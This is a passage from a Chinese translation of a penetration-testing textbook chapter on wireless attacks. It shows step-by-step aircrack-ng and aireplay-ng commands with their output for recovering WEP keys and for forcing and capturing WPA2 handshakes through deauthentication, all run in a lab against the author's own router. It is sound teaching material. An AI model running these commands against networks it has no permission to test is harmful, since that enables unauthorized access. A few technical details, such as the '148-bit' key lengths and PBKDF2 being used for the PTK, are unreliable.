






## 第十五章. 无线攻击

本章将简要介绍无线安全。到目前为止，我们已经看了几种突破安全边界的方法。但如果有攻击者坐在目标组织大楼前的长椅上，而组织提供了弱加密的无线访问到内部网络，那么网络应用安全、火墙、信息安全培训等都无法保护内部网络。

## 设置

在本章的示例中，我将使用一台 Linksys WRT54G2 无线路由器，但任何支持 WEP 和 WPA2 加密的路由器都可以使用。默认情况下，我的 Linksys 路由器具有一个 Web 管理界面，地址是 *http://192.168.20.1*，如 图 15-1 所示。路由器的默认用户名和密码是 *admin:admin*。默认凭据因设备而异，但在渗透测试中，常常会发现路由设备仍然使用默认凭据——这会导致攻击者获得对路由器的管理控制。

### 注意

本书不会涵盖对网络设备的攻击，但请检查你所拥有的任何网络设备的管理接口。攻击者访问企业网络设备可能会造成严重损害，因此不容忽视。

图 15-1. Linksys WRT54G2 网络界面

我还将使用一个 Alfa Networks AWUS036H USB 无线网卡。这个网卡以及类似的 Alfa USB 型号，非常适合用于无线安全评估，特别是在使用虚拟机时。VMware 不支持无线网卡的驱动，但它支持 USB 直通功能，允许我们从虚拟机中使用 Kali Linux 内置的无线驱动。使用 USB 无线网卡可以让我们从虚拟机中评估无线网络。

### 查看可用的无线接口

在将 Alfa 无线网卡连接到 Kali 虚拟机后，输入 **`iwconfig`** 以查看虚拟机上可用的无线接口。请注意，在我的案例中，Alfa 网卡连接为 `wlan0` ❶，如 示例 15-1 所示。

示例 15-1. Kali Linux 无线接口

```
root@kali:~# iwconfig
wlan0❶   IEEE 802.11bg  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry  long limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off

lo        no wireless extensions.

eth0      no wireless extensions.
```

### 扫描访问点

现在我们可以扫描附近的接入点了。命令 `iwlist wlan0 scan` 将使用 `wlan0` 接口扫描附近的接入点，如 示例 15-2 所示。

示例 15-2. 扫描附近的无线接入点

```
root@kali:~# iwlist wlan0 scan
  Cell 02 - Address: 00:23:69:F5:B4:2B❶
                    Channel:6❷
                    Frequency:2.437 GHz (Channel 6)
                    Quality=47/70  Signal level=-63 dBm
                    Encryption key:off❸
                    ESSID:"linksys"❹
                    Bit Rates:1 Mb/s; 2 Mb/s; 5.5 Mb/s; 11 Mb/s; 6 Mb/s
                              9 Mb/s; 14 Mb/s; 18 Mb/s
                    Bit Rates:24 Mb/s; 36 Mb/s; 48 Mb/s; 54 Mb/s
                    Mode:Master
--*snip*--
```

通过这个初步扫描，我们几乎收集到了所有需要的信息，以便稍后在本章中进行攻击。我们有它的 MAC 地址 ❶，它广播的频道 ❷，我们了解到它目前没有使用加密 ❸，还有它的 SSID ❹。

## 监视模式

在继续之前，让我们将 Alfa 卡设置为*监视模式*。就像 Wireshark 中的混杂模式一样，监视模式允许我们看到除了专门为无线卡传输的流量之外的额外无线流量。我们将使用 *Airmon-ng* 脚本，这属于 Aircrack-ng 无线评估工具套件的一部分，来将 Alfa 卡设置为监视模式。首先，确保没有正在运行的进程会干扰监视模式，通过输入 **`airmon-ng check`**，如示例 15-3 所示。

示例 15-3. 检查干扰进程

```
root@kali:~# airmon-ng check
Found 2 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
a short period of time, you may want to kill (some of) them!
-e
PID     Name
2714    NetworkManager
5664    wpa_supplicant
```

如你所见，Airmon 找到了两个可能干扰的运行进程。根据你的无线卡和驱动程序，如果不终止这些程序，你可能会遇到一些问题。我们使用的这张卡应该不会有问题，但一些 USB 无线卡可能会。如果你想一步终止所有干扰进程，可以输入 **`airmon-ng check kill`**，如示例 15-4 所示。

示例 15-4. 终止干扰进程

```
root@kali:~# airmon-ng check kill
Found 2 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
a short period of time, you may want to kill (some of) them!
-e
PID     Name
2714    NetworkManager
5664    wpa_supplicant
Killing all those processes...
```

现在输入 **`airmon-ng start wlan0`** 来将无线接口切换为监视模式，如示例 15-5 所示。这将允许我们捕获原本不属于我们的数据包。Airmon-ng 创建了无线接口 `mon0` ❶。

示例 15-5. 将 Alfa 卡设置为监视模式

```
root@kali:~# airmon-ng start wlan0
Interface    Chipset             Driver
wlan0        Realtek RTL8187L    rtl8187 - [phy0]
             (monitor mode enabled on mon0) ❶
```

## 捕获数据包

在监视模式下的接口上，我们来看一下使用 Aircrack-ng 套件中的 Airodump-ng 可以收集到什么数据。Airodump-ng 用于捕获并保存无线数据包。示例 15-6 展示了如何告诉 Airodump-ng 使用监视模式下的无线接口 `mon0`。

示例 15-6. 使用 Airodump-ng 开始数据包转储

```
root@kali:~# airodump-ng mon0 --channel 6
 CH  6 ][ Elapsed: 28 s ] 2015-05-19 20:08

 BSSID                 PWR    Beacons    #Data, #/s   CH   MB   ENC  CIPHER AUTH ESSID

 00:23:69:F5:B4:2B❶   -30         53        2    0    6   54 . OPN❷             linksys❸
 BSSID               STATION               PWR   Rate    Lost    Frames   Probe

 00:23:69:F5:B4:2B   70:56:81:B2:F0:53❹   -21   0       -54     42       19
```

Airodump-ng 输出收集有关无线数据包的信息，包括基础服务集标识符（BSSID），即基站的 MAC 地址 ❶。我们还会看到额外的信息，如用于无线安全的加密算法 ❷，以及服务集标识符（SSID） ❸。Airodump-ng 还会获取连接客户端的 MAC 地址 ❹，以及我主机附着到无线接入点的 MAC 地址。（在本章稍后的无线安全破解过程中，我们将进一步检查 Airodump-ng 输出中的其他字段。）

现在我们知道 Linksys 接入点是开放的，没有安全性。

## 开放无线

开放无线网络从安全角度来看是一个真正的灾难，因为任何在接入点天线范围内的人都可以连接到该网络。虽然开放网络在连接后可能需要身份验证，有些确实如此，但许多开放网络让任何人都能连接。

此外，通过开放网络传输的无线数据包是未加密的，任何监听的人都可以看到明文中的任何数据。敏感数据可能通过如 SSL 等协议进行加密，但这并非总是如此。例如，开放无线网络上的 FTP 流量是完全未加密的，包括登录信息，我们甚至不需要使用 ARP 或 DNS 缓存中毒来捕获数据包。任何处于监听模式的无线网卡都能够看到未加密的流量。

现在让我们来看看那些部署了各种安全协议的网络，这些协议可以防止不希望的实体连接到网络并截获流量。

## 有线等效隐私（Wired Equivalent Privacy）

许多启用加密的路由器默认使用较老的加密方式，即*有线等效隐私（WEP）*。WEP 的根本问题在于其算法的缺陷，使得攻击者能够恢复任何 WEP 密钥。WEP 使用 Rivest Cipher 4（RC4）流密码和一个预共享密钥。任何想要连接网络的人都可以使用相同的密钥，这个密钥由一串十六进制数字组成，用于加密和解密。明文（未加密）数据与密钥流进行异或（XOR）按位操作，生成加密的密文。

按位异或（XOR）操作有四种可能性：

+   0 XOR 0 = 0

+   1 XOR 0 = 1

+   0 XOR 1 = 1

+   1 XOR 1 = 0

[图 15-2 和图 15-3 中的比特流的零和一可以表示任何通过网络传输的数据。图 15-2 展示了明文如何与密钥流进行异或（XOR）操作，从而生成密文。

图 15-2. WEP 加密

当解密时，使用相同的密钥流对密文进行异或操作，以恢复原始明文，如图 15-3 所示。

图 15-3. WEP 解密

共享 WEP 密钥可以是 64 位或 148 位。在这两种情况下，初始化向量（IV）占密钥的前 24 位，以增加随机性，使有效密钥长度实际上仅为 40 位或 104 位。在加密系统中添加随机性是常见的做法，因为如果同一个密钥被重复使用，攻击者可以检查生成的密文是否存在模式，从而可能破解加密。

### 注释

密码分析师通常发现，密码算法中的随机性没有得到正确实现，就像 WEP 一样。首先，WEP 的 24 位随机化在现代密码学标准下是最小的。

初始化向量（IV）和密钥被连接起来，然后通过密钥调度算法（KSA）和伪随机数生成器（PRNG）生成密钥流。（这里省略数学部分。）接下来，计算出一个完整性校验值（ICV），并在加密之前将其与明文连接起来，以防止攻击者拦截密文、翻转某些位，并将解密后的明文更改为恶意或至少具有误导性的内容。然后，明文与密钥流进行异或操作（如 图 15-2 所示）。生成的数据包由 IV、ICV、密文和一个两位的密钥 ID 组成，如 图 15-4 所示。

图 15-4. WEP 加密

解密过程类似，如 图 15-5 所示。IV 和密钥（由密钥 ID 表示），作为数据包的一部分存储为明文，被连接起来并通过相同的密钥调度算法和伪随机数生成器生成与加密时使用的密钥流完全相同的密钥流。然后，密文与密钥流进行异或操作，揭示出明文和 ICV。最后，将解密后的 ICV 与附加到数据包上的明文 ICV 值进行比较。如果值不匹配，则丢弃该数据包。

图 15-5. WEP 解密

### WEP 的弱点

不幸的是，WEP 存在一些固有的问题，允许攻击者恢复密钥或篡改合法的数据包。事实上，任何 WEP 密钥都可以被携带足够密文并使用相同共享密钥的攻击者恢复。唯一真正安全的加密系统是随机一次性密码本，它只使用一个特定的密钥一次。WEP 的主要问题在于 24 位的初始化向量（IV）没有引入足够的随机性；它最多有 2²⁴（即 16,777,216）个值。

无线网卡和接入点没有标准的方法来计算初始化向量（IV），而在实际应用中，使用的 IV 空间可能更小。无论如何，给定足够的数据包，IV 会被重复使用，且相同的值（静态密钥与 IV 连接）将被用来生成密文。通过被动监听网络流量（或更好的是，注入流量到网络中，迫使生成更多的数据包，从而生成更多的 IV），攻击者可以收集足够的数据包进行密码分析并恢复密钥。

同样，ICV（用于防止攻击者拦截加密消息、翻转位并更改结果明文）不足以保证安全。不幸的是，ICV 实现中的循环冗余校验 32（CRC-32）存在弱点，可能允许攻击者为修改后的消息构造正确的 ICV。由于 CRC-32 是线性算法，在密文中翻转特定的比特位会对生成的 ICV 产生确定性结果，且了解 CRC-32 计算方式的攻击者可能会导致修改后的消息被接受。因此，ICV 的实现和 IV 一样，按照现代加密标准并不可靠。

我们可以使用 Aircrack-ng 套件从使用 WEP 安全的无线网络中恢复共享密钥。同样，密码攻击背后的数学原理超出了本书的范围。幸运的是，我们有一些工具，如果能够捕获所需的流量，它们会处理复杂的部分。

### 使用 Aircrack-ng 破解 WEP 密钥

破解 WEP 密钥有多种方法，包括伪认证攻击、分片攻击、chopchop 攻击、caffé latte 攻击和 PTW 攻击。我们将详细了解伪认证攻击，它要求至少有一个合法客户端连接到接入点。

我们将使用主机系统模拟一个连接的客户端。首先，将路由器的无线安全设置更改为 WEP（如果需要帮助，请参阅用户手册），然后确保无线网卡处于监视模式，以便可以在无需先认证的情况下捕获网络流量。

现在来看一下我们可以使用 Airodump-ng 工具从 Aircrack-ng 收集到哪些数据。告诉 Airodump-ng 使用无线接口 `mon0` 的监视模式，如 示例 15-7 所示，并使用 `-w` 标志将所有数据包保存到文件中。

示例 15-7. Airodump-ng 捕获用于 WEP 密码分析

```
root@kali:~# airodump-ng -w book mon0 --channel 6
 CH  6 ][ Elapsed: 20 s ] 2015-03-06 19:08
 BSSID                 PWR    Beacons    #Data, #/s   CH    MB   ENC    CIPHER AUTH ESSID
 00:23:69:F5:B4:2B❶   -53         22         6   0    6❷  54 . WEP❸  WEP         linksys❹
 BSSID                 STATION               PWR   Rate    Lost    Frames   Probe
 00:23:69:F5:B4:2B     70:56:81:B2:F0:53     -26   54-54      0         6
```

这次初步扫描收集了我们开始对基站发起 WEP 攻击所需的所有信息。在这里，我们有 BSSID ❶、无线频道 ❷、加密算法 ❸ 和 SSID ❹。我们将使用这些信息来收集数据包以破解 WEP 密钥。当然，您自己的设置可能不同，但以下是我们将使用的内容：

+   **基站 MAC 地址**: 00:23:69:F5:B4:2B

+   **SSID**: linksys

+   **频道**: 6

#### 注入数据包

尽管 [示例 15-7 中的 Airodump-ng 输出显示来自接入点的一些流量，但要破解一个 64 位的 WEP 密钥，我们需要大约 250,000 个 IV，而破解一个 148 位的 WEP 密钥需要大约 1,500,000 个 IV。与其无所事事地监听数据包，我们会捕获并重新广播数据包到接入点，以快速生成唯一的 IV。我们需要进行认证，因为如果我们的 MAC 地址没有通过接入点认证，任何我们发送的数据包都会被丢弃，并且我们将收到一个去认证请求。我们将使用 Aireplay-ng 伪造认证与接入点进行交互，并欺骗它响应我们注入的数据包。

在使用伪造认证时，我们告诉接入点我们准备好证明我们知道 WEP 密钥，如 示例 15-8 所示。 当然，因为我们还不知道密钥，所以不会发送它，但我们的 MAC 地址现在已在可以向接入点发送数据包的客户端列表中，因此这是伪造的认证。

示例 15-8. 使用 Aireplay-ng 伪造认证

```
root@kali:~# aireplay-ng -1 0 -e linksys -a 00:23:69:F5:B4:2B -h 00:C0:CA:1B:69:AA mon0
20:02:56  Waiting for beacon frame (BSSID: 00:23:69:F5:B4:2B) on channel 6

20:02:56  Sending Authentication Request (Open System) [ACK]
20:02:56  Authentication successful
20:02:56  Sending Association Request [ACK]
20:02:56  Association successful :-) (AID: 1) ❶
```

我们使用以下标志及其相关数据伪造认证：

+   **`-1`** 告诉 Aireplay-ng 伪造认证。

+   **`0`** 是重新传输时间。

+   **`-e`** 是 SSID；在我的例子中是 `linksys`。

+   **`-a`** 是我们想要认证的接入点的 MAC 地址。

+   **`-h`** 是我们卡片的 MAC 地址（应该在设备上的标签上）。

+   **`mon0`** 是用于伪造认证的接口。

发送 Aireplay-ng 请求后，你应该会收到一个笑脸和认证成功的提示 ❶。

#### 使用 ARP 请求转发攻击生成 IVs

当基站愿意接收我们的数据包时，我们可以捕获并重新广播合法的数据包。虽然接入点在没有首先发送 WEP 密钥进行认证的情况下不会允许我们发送流量，但我们可以重新广播来自正确认证客户端的流量。

我们将使用被称为 *ARP 请求重放* 的攻击技术，通过让 Aireplay-ng 监听 ARP 请求，然后将其重新广播回基站，以快速生成 IV。 （当接入点收到 ARP 请求时，它会用新的 IV 重新广播该请求。）Aireplay-ng 会反复重新广播相同的 ARP 数据包，每次广播时都会生成一个新的 IV。

示例 15-9 展示了该攻击的实际操作。Aireplay-ng 会读取数据包，查找 ARP 请求。直到 Aireplay-ng 看到它可以重新广播的 ARP 请求之前，你不会看到任何数据。我们接下来会看到这一点。

示例 15-9. 使用 Aireplay-ng 重新广播 ARP 数据包

```
root@kali:~# aireplay-ng -3 -b 00:23:69:F5:B4:2B -h 00:C0:CA:1B:69:AA mon0
20:14:21  Waiting for beacon frame (BSSID: 00:23:69:F5:B4:2B) on channel 6
Saving ARP requests in replay_arp-1142-201521.cap
You should also start airodump-ng to capture replies.
Read 541 packets (got 0 ARP requests and 0 ACKs), sent 0 packets...(0 pps)
```

我们使用以下选项：

+   **`-3`** 执行 ARP 请求重放攻击。

+   **`-b`** 是基站的 MAC 地址。

+   **`-h`** 是我们的 Alfa 卡的 MAC 地址。

+   **`mon0`** 是接口。

#### 生成 ARP 请求

不幸的是，正如你在 示例 15-9 中看到的，我们没有看到任何 ARP 请求。为了生成 ARP 请求，我们将通过从连接的主机系统 ping 网络上的一个 IP 地址，使用主机系统作为模拟客户端。Aireplay-ng 会看到 ARP 请求并反复将其转发到接入点。

如你在 Airodump-ng 屏幕中看到的，示例 15-10 所示，`#Data` ❶ 数字（表示捕获的 IV 数量）会迅速增加，因为 Aireplay-ng 会不断重新传输 ARP 数据包，导致接入点生成更多的 IV。（如果你的 `aireplay-ng -3` 显示 `"Got adeauth/disassoc"` 或类似信息，并且 `#Data` 数字没有快速上升，请再次运行 示例 15-8 中的虚假关联命令，以重新关联接入点。你的 `#Data` 字段应再次开始快速上升。）

示例 15-10. IV 正在 Airodump-ng 中被捕获

```
CH  6 ][ Elapsed: 14 mins ] 2015-11-22 20:31

BSSID               PWR  RXQ  Beacons    #Data, #/s    CH   MB   ENC    CIPHER AUTH ESSID

00:23:69:F5:B4:2B   -63   92     5740    85143❶ 389     6   54 . WEP    WEP   OPN  linksys
```

#### 破解密钥

记住，我们需要大约 250,000 个 IV 来破解 64 位 WEP 密钥。只要你保持与基站的关联，如 [示例 15-8 中所示，（如果有必要，重新运行命令）并且已经在网络上生成了 ARP 请求，收集足够的 IV 应该只需要几分钟。一旦我们收集到足够的 IV，就可以使用 Aircrack-ng 进行计算，将收集到的 IV 转换为正确的 WEP 密钥。示例 15-11 展示了我们如何通过使用 `-b` 标志，并提供在 Airodump-ng 中使用的文件名，再加上 `*.cap` ❶ 来破解密钥。这告诉 Aircrack-ng 从 Airodump-ng 保存的所有 .*cap* 文件中读取数据。

示例 15-11. 使用 Aircrack-ng 恢复 WEP 密钥

```
root@kali:~# aircrack-ng -b 00:23:69:F5:B4:2B book*.cap❶
Opening book-01.cap
Attack will be restarted every 5000 captured ivs.
Starting PTW attack with 239400 ivs.
KEY FOUND! [ 2C:85:8B:B6:31 ] ❷
Decrypted correctly: 100%
```

几秒钟的分析后，Aircrack-ng 返回正确的密钥 ❷。我们现在可以通过网络进行身份验证。如果这是渗透测试客户的网络，我们现在可以直接攻击网络上的任何系统。

#### WEP 破解的挑战

正如本书中讨论的许多话题一样，无线攻击的信息量足以填满一本书，而我这里只展示了一种攻击方法。在攻击 WEP 时需要牢记的一点是，客户端可能会使用过滤器来阻止类似的攻击。例如，接入点可能会使用 MAC 过滤功能，只允许特定 MAC 地址的无线网卡连接，如果你的 Alfa 卡不在列表中，你的假认证尝试将会失败。为了绕过 MAC 过滤，你可以使用 Kali 中的 MAC Changer 工具来伪造一个 MAC 地址并创建一个被接受的值。请记住，只要我们能够收集足够的数据包，WEP 密钥总是可以被破解的，出于安全原因，不应在生产环境中使用 WEP 加密。

值得注意的是，Kali Linux 中默认安装的 Wifite 工具实际上是 Aircrack-ng 套件的一个封装，它会自动化攻击无线网络的过程，包括破解 WEP。但在你学习 Wi-Fi 攻击的原理时，最好是逐步完成整个过程，而不是使用自动化封装工具。

现在，我们将注意力转向更强大的无线加密协议 WPA 和 WPA2。

## Wi-Fi 保护访问

随着 WEP 弱点的暴露，迫切需要一个更强大的无线安全系统，于是一个新的系统（最终成为 WPA2）应运而生，取代了 WEP。然而，构建一个安全的无线加密系统花费了时间，在此期间，仍然需要一个与已部署的无线硬件兼容的额外安全措施。因此，*Wi-Fi 保护访问 (WPA)*，也被称为 *临时密钥完整性协议 (TKIP)*，应运而生。

WPA 使用与 WEP 相同的基础算法（RC4），但通过向 IVs 添加密钥流随机性并向 ICV 添加完整性来解决 WEP 的弱点。与 WEP 使用 40 或 104 位密钥并为每个数据包使用弱 IV 不同，WPA 为每个数据包生成 148 位密钥，以确保每个数据包都使用唯一的密钥流进行加密。

此外，WPA 用消息认证码（MAC）算法 *Michael* 替代了 WEP 的弱 CRC-32 消息完整性检查，防止攻击者轻易计算出当位被翻转时 ICV 产生的变化。尽管 WPA 和 WPA2 都存在一些弱点，但最常见的漏洞（我们将在本章稍后利用）是使用弱密码短语。

## WPA2

WPA2 从零开始构建，旨在为无线网络提供一个安全的加密系统。它实现了一种专为无线安全设计的加密协议，称为 *计数模式与密码块链消息认证码协议 (CCMP)*。CCMP 基于高级加密标准 (AES)。

WPA 和 WPA2 支持个人和企业两种设置。WPA/WPA2 个人版使用预共享密钥，类似于 WEP。WPA/WPA2 企业版则增加了一个名为 *远程认证拨号用户服务 (RADIUS) 服务器* 的额外元素，用于管理客户端身份验证。

### 企业连接过程

在 WPA/WPA2 企业网络中，客户端连接过程包括四个步骤，如图 15-6 所示。首先，客户端和接入点达成一致，支持相同的安全协议。然后，根据选择的认证协议，接入点和 RADIUS 服务器交换消息以生成主密钥。一旦主密钥生成后，会向接入点发送认证成功的消息，并传递给客户端，同时主密钥也会发送到接入点。接入点和客户端通过四次握手交换并验证密钥，以进行相互认证、消息加密和消息完整性验证，如在四次握手中所讨论的那样。密钥交换后，客户端和接入点之间的流量将通过 WPA 或 WPA2 进行安全保护。

图 15-6. WPA/WPA2 企业连接

### 个人连接过程

WPA/WPA2 个人连接过程比企业连接过程稍微简单一些：不需要 RADIUS 服务器，整个过程仅在接入点和客户端之间进行。不需要认证或主密钥步骤，取而代之的是，WPA/WPA2 个人使用的是预共享密钥，这些密钥是通过预共享密码生成的。

当你连接到安全网络时，WPA/WPA2 个人密码短语是静态的，而企业设置使用的是由 RADIUS 服务器生成的动态密钥。企业设置更安全，但大多数个人网络甚至大多数小型企业都没有 RADIUS 服务器。

### 四次握手

在接入点和客户端（申请者）之间的连接的第一阶段，会创建一个对称的主密钥（PMK），它在整个会话期间保持静态。这个密钥不是用于加密的密钥，而是用于第二阶段，在这个阶段，接入点和客户端之间会进行四次握手，目的是建立通信通道并交换用于后续数据通信的加密密钥，如图 15-7 所示。

图 15-7. WPA/WPA2 四次握手

这个 PMK 是通过以下方式生成的：

+   密码短语（预共享密钥，或 PSK）

+   接入点的 SSID

+   SSID 长度

+   哈希迭代次数（4096）

+   生成的共享密钥（PMK）的最终长度（256 位）

这些值被输入到一个名为 PBKDF2 的哈希算法中，生成一个 256 位的共享密钥（PMK）。虽然你的密码短语（PSK）可能是*GeorgiaIsAwesome*，但这不是在第二阶段使用的 PMK。也就是说，任何知道密码短语和接入点 SSID 的人都可以使用 PBKDF2 算法来生成正确的 PMK。在四次握手期间，创建了一个配对临时密钥（PTK），并用于加密接入点与客户端之间的流量；同时，交换了一个组临时密钥（GTK），用于加密广播流量。PTK 由以下内容组成：

+   共享密钥（PMK）

+   来自接入点的一个随机数（ANonce）

+   客户端的一个随机数（SNonce）

+   客户端的 MAC 地址

+   接入点的 MAC 地址

这些值被输入到 PBKDF2 哈希算法中，以创建 PTK。

为了生成 PTK，接入点和客户端交换 MAC 地址和随机数（随机值）。静态共享密钥（PMK）永远不会通过无线电发送，因为接入点和客户端都知道密码短语（PSK），因此可以独立生成共享密钥。

共享的随机数和 MAC 地址被客户端和接入点共同使用以生成 PTK。在四次握手的第一步中，接入点发送其随机数（ANonce）。接下来，客户端选择一个随机数，生成 PTK，并将其随机数（SNonce）发送给接入点。（SNonce 中的 *S* 代表请求方，在无线网络设置中也就是客户端的另一个名字。）

除了发送随机数外，客户端还发送一个消息完整性码（MIC），以防止伪造攻击。为了计算正确的 MIC，生成预共享密钥的密码短语必须正确，否则 PTK 会出错。接入点基于客户端发送的 SNonce 和 MAC 地址独立生成 PTK，然后检查客户端发送的 MIC。如果正确，客户端就已成功认证，接入点会将 GTK 和 MIC 一起发送给客户端。

在握手的第四部分，客户端确认 GTK。

### 破解 WPA/WPA2 密钥

与 WEP 不同，WPA 和 WPA2 中使用的加密算法足够强大，可以防止攻击者仅通过捕获足够的流量并进行密码分析来恢复密钥。WPA/WPA2 个人网络的 Achilles’ heel 在于所使用的预共享密钥（密码短语）的质量。如果你在后期利用漏洞获得的 Windows *管理员*密码与 WPA 或 WPA2 个人密码短语相同，或者密码短语写在公司前办公室的白板上，那就完了。

要尝试猜测一个弱密码，我们首先需要捕获四次握手以进行分析。回想一下，给定正确的密码和接入点的 SSID，可以使用 PBKDF2 哈希算法生成共享密钥（PMK）。有了 PMK，我们仍然需要接入点和客户端的 ANonce、SNonce 以及 MAC 地址来计算 PTK。当然，PTK 会因每个客户端而异，因为每次四次握手中的 nonces 是不同的，但如果我们能从任何合法客户端捕获四次握手，我们可以利用其 MAC 地址和 nonces 来计算给定密码的 PTK。例如，我们可以使用 SSID 和密码 *password* 来生成 PMK，然后将生成的 PMK 与捕获的 nonces 和 MAC 地址结合起来计算 PTK。如果计算出的 MIC 与捕获的握手中的 MIC 一致，我们就知道 *password* 是正确的密码。这个技术可以应用于一个可能的密码字典中，尝试猜测正确的密码。幸运的是，如果我们能捕获到四次握手并提供一个密码字典，我们就可以利用 Aircrack-ng 完成所有数学计算。

#### 使用 Aircrack-ng 破解 WPA/WPA2 密钥

要使用 Aircrack-ng 破解 WPA/WPA2，首先将无线接入点设置为 WPA2 个人模式。选择一个共享密钥（密码），然后将主机系统连接到接入点，以模拟一个真实客户端。

要使用字典猜测 WPA2 共享密钥（密码），我们需要捕获四次握手。输入 **`airodump-ng -c 6`** 来选择频道，**`--bssid`** 后接基站的 MAC 地址，**`-w`** 来指定输出的文件名（使用不同于 WEP 破解示例中的文件名），以及 **`mon0`** 作为监视接口，如 示例 15-12 中所示。

示例 15-12. 使用 Airodump-ng 进行 WPA2 破解

```
root@kali:~# airodump-ng -c 6 --bssid 00:23:69:F5:B4:2B -w pentestbook2 mon0

 CH  6 ][ Elapsed: 4 s ] 2015-05-19 16:31

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH E

 00:23:69:F5:B4:2B  -43 100       66      157   17   6  54 . WPA2 CCMP   PSK  l

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 00:23:69:F5:B4:2B  70:56:81:B2:F0:53  -33   54-54     15       168 ❶
```

如你所见，主机已连接 ❶。为了捕获四次握手，我们可以等待另一个无线客户端连接，或者通过将某个客户端踢出网络并迫使其重新连接来加速这一过程。

为了强制客户端重新连接，可以使用 Aireplay-ng 向已连接的客户端发送一条消息，告知它不再连接到接入点。当客户端重新认证时，我们将捕获客户端与接入点之间的四次握手。我们需要的 Aireplay-ng 选项如下：

+   **`-0`** 表示去认证。

+   **`1`** 是要发送的去认证请求的数量。

+   **`-a 00:14:6C:7E:40:80`** 是基站的 MAC 地址。

+   **`-c 00:0F:B5:FD:FB:C2`** 是要去认证的客户端的 MAC 地址。

[示例 15-13 显示了 `aireplay-ng` 命令和去认证请求。

示例 15-13. 向客户端发送去认证请求

```
root@kali:~# aireplay-ng -0 1 -a 00:23:69:F5:B4:2B -c 70:56:81:B2:F0:53 mon0
16:35:11  Waiting for beacon frame (BSSID: 00:23:69:F5:B4:2B) on channel 6
16:35:14  Sending 64 directed DeAuth. STMAC: [70:56:81:B2:F0:53] [24|66 ACKs]
```

现在我们回到 Airodump-ng 窗口，如示例 15-14 所示。

示例 15-14. 在 Airodump-ng 中捕获 WPA2 握手

```
CH  6 ][ Elapsed: 2 mins ][ 2015-11-23 17:10 ] WPA handshake: 00:23:69:F5:B4:2B ❶

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 00:23:69:F5:B4:2B  -51 100      774      363   18   6  54 . WPA2 CCMP   PSK  linksys

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 00:23:69:F5:B4:2B  70:56:81:B2:F0:53  -29   1 - 1     47       457
```

如果 Airodump-ng 捕获到与客户端的四次握手，它会将其记录在捕获输出的第一行 ❶。

一旦捕获到 WPA2 握手，关闭 Airodump-ng，然后在 Wireshark 中通过文件菜单打开 *.cap* 文件，路径为 File4Open4*filename.cap*。进入 Wireshark 后，使用过滤器 `eapol` 协议查看构成握手的四个数据包，如[图 15-8 所示。

图 15-8. Wireshark 中的 WPA2 握手数据包

### 注意

有时 Aircrack-ng 会声称已经捕获到握手，但当你查看 Wireshark 中的数据包时，会发现并没有捕获到所有四个消息。如果是这种情况，请重新运行去身份验证攻击，因为你需要所有四个消息才能尝试猜测正确的密钥。

现在我们创建一个类似于第九章中使用的单词列表，确保正确的 WPA2 密钥包含在列表中。我们对 WPA2 攻击的成功取决于我们是否能够将我们密码短语的哈希值与握手中的值进行比较。

一旦我们捕获到握手数据包，就可以离线进行剩余的计算来恢复密钥；我们不再需要靠近接入点或向其发送数据包。接下来，我们使用 Aircrack-ng 来测试单词列表中的密钥，指定一个带有 `-w` 选项的列表，如示例 15-15 所示。否则，命令与破解 WEP 密钥时相同。如果正确的密钥在单词列表中，它将通过 Aircrack-ng 恢复。

